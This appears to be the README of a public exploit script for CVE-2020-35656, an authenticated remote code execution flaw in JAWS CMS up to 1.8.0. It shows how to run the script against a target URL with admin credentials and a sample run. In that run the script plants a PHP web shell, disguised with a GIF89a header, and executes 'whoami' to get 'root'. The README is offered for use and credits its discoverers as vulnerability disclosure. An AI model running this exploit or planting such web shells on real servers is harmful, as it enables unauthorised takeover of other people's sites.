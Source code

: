 # Jaws-CMS-RCE CVE-2020-35656
Authenticated RCE JAWS CMS &lt;=1.8.0


python jaws-rce.py
[+]Usage python jaws-rce.py http://victim.com/ admin admin




python jaws-rce.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin



Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/files/cmd47.php?c=whoami



GIF89a

root




# Discoverer

Bassam Assiri https://twitter.com/BassamAssiri  https://www.linkedin.com/in/bassam-assiri-9418401ab/

special thanks to:
abdallah fouad https://twitter.com/AbdallafouadX https://www.linkedin.com/in/abdallah-fouad/
